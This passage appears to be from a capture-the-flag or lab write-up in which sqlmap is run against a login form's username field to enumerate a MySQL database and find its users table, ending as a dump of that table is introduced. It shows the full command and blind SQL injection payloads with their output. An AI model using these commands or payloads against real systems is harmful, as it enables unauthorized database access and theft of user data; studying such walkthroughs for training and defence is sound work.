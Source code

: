 ```console

[10:43:21] [INFO] fetched data logged to text files under '/root/.sqlmap/output/52.63.238.93'

[*] shutting down at 10:43:21
```
Lets see what tables exists in the zeropoint database
```console
root@kali:~# sqlmap --data 'username=john&password=john' -p username -u 'http://52.63.238.93/index.php' --dbms=mysql -D zeropoint --tables
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-20150429}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and
federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 10:43:41

[10:43:41] [INFO] testing connection to the target URL
[10:43:41] [INFO] heuristics detected web page charset 'ascii'
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (RLIKE)
    Payload: username=john' RLIKE (SELECT (CASE WHEN (5744=5744) THEN 0x6a6f686e ELSE 0x28 END)) AND 'iSRU'='iSRU&password=john

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind (SELECT)
    Payload: username=john' AND (SELECT * FROM (SELECT(SLEEP(5)))MKmf) AND 'kDJo'='kDJo&password=john
---
[10:43:41] [INFO] testing MySQL
[10:43:41] [INFO] confirming MySQL
[10:43:41] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.0
[10:43:41] [INFO] fetching tables for database: 'zeropoint'
[10:43:41] [INFO] fetching number of tables for database 'zeropoint'
[10:43:41] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[10:43:41] [INFO] retrieved:
[10:43:41] [WARNING] reflective value(s) found and filtering out
1
[10:43:41] [INFO] retrieved: users
Database: zeropoint
[1 table]
+-------+
| users |
+-------+

[10:43:43] [INFO] fetched data logged to text files under '/root/.sqlmap/output/52.63.238.93'

[*] shutting down at 10:43:43
```
Now lets dump the contents of the users table
```console
```